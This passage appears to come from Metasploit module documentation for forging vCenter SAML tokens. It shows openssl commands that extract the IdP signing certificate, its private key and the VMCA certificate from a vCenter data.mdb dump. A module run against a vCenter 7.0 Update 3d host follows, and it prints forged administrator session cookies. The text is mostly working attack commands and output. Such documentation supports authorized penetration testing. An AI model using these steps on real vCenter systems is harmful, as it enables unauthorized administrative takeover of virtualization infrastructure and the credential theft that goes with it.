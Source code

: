 This confirms that `86E2CA` is the IdP certificate, and `86E6B0` is the VMCA certificate. Convert them
to PEM format and rename them for convenience:

```
openssl x509 -inform der -in ./_data.mdb.extracted/86E2CA -outform pem -out ./idp.pem
openssl x509 -inform der -in ./_data.mdb.extracted/86E6B0 -outform pem -out ./vmca.pem
```

To associate  them with their private key, first calculate the SHA-256 digest of the modulus for
both certificates.

```
openssl x509 -in ./idp.pem -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl x509 -in ./vmca.pem -modulus -noout | sha256sum
432f0244896a3243f46d4a2f7322127a52b891a53b984745c286989c02862a13  -
```

Compare these to the modulus component of the candidate keys to associate them with the corresponding
certificate.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl rsa -inform der -in ./_data.mdb.extracted/86EB0C -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -
```

Based on this output we conclude `86EAF2` and `86EB0C` are identical, and share a modulus with the
IdP certificate: either of these can be extracted. Convert the file to PEM format and rename it for
convenience.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -outform pem -out ./idp.key
writing RSA key
```

You should now have `idp.pem`, `idp.key`, and `vmca.pem` in your working directory in PEM format.

### Running the Module
Example run against vCenter appliance version 7.0 Update 3d:

```
msf > use auxiliary/admin/vmware/vcenter_forge_saml_token.rb
msf auxiliary(admin/vmware/vcenter_forge_saml_token) > set RHOSTS 192.168.100.110
RHOSTS => 192.168.100.110
msf auxiliary(admin/vmware/vcenter_forge_saml_token) > set VHOST vcenter.cesium137.io
VHOST => vcenter.cesium137.io
msf auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_CERT ~/idp.pem
VC_IDP_CERT => ~/idp.pem
msf auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_KEY ~/idp.key
VC_IDP_KEY => ~/idp.key
msf auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_VMCA_CERT ~/vmca.pem
VC_VMCA_CERT => ~/vmca.pem
msf auxiliary(admin/vmware/vcenter_forge_saml_token) > run
[*] Running module against 192.168.100.110

[+] Validated vCenter Single Sign-On IdP trusted certificate chain
[*] HTTP GET => /ui/login ...
[*] HTTP POST => /ui/saml/websso/sso ...
[*] Got cookie: VSPHERE-CLIENT-SESSION-INDEX=_ad4a6b68b157bded0de5ec6ce2cab324
[*] Got cookie: VSPHERE-UI-JSESSIONID=DA9ECA61A289E32D31D9926D0CD433C1
[*] Got cookie: VSPHERE-USERNAME=administrator%40vsphere.local
[+] Got valid administrator session token!
[+]     JSESSIONID=DA9ECA61A289E32D31D9926D0CD433C1; Path=/ui
```
